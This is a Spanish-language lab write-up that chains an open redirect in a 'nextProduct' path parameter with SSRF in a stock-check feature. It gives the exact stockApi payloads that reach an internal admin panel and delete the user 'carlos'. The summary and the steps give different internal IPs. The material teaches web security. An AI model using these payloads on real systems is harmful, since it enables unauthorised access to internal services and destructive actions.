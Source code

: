 En esta clase resolvemos un caso de SSRF donde el stock **checker** sólo permite acceder a rutas internas de la propia aplicación, bloqueando directamente URLs externas. Sin embargo, identificamos una vulnerabilidad de redirección abierta en el parámetro path del endpoint ‘nextProduct’.

Aprovechamos esta redirección para hacer que el stock checker acceda de forma indirecta al panel de administración interno ubicado en http://192.168.0.12:8080/admin. Desde ahí, utilizamos la misma técnica para construir una URL que elimine al usuario carlos, completando así el laboratorio. Este enfoque muestra cómo una redirección abierta puede ser encadenada con un SSRF para saltarse restricciones de filtrado.

-----

1. Primero vamos al stock check
2. Si probamos, no podemos poner dominios en la consulta
3. En la parte inferior izquierda, hay una funcionalidad para de open redirect
4. Probamos haciendo lo siguiente:

https://burpsuite/product/nextProduct?currentProductId=3&path=/product/12

Ahora en path probamos hacer el redirect, y lo hace correctamente
https://burpsuite/product/nextProduct?currentProductId=3&path=https://google.es

5. Entonces nos aprovechamos del paso 2 y metemos la siguiente ruta:


    stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.2:8080/admin

6. Para borrar el usuario:

    stockApi=/product/nextProduct?currentProductId=3&path=http://192.168.0.2:8080/admin/delete?username=carlos


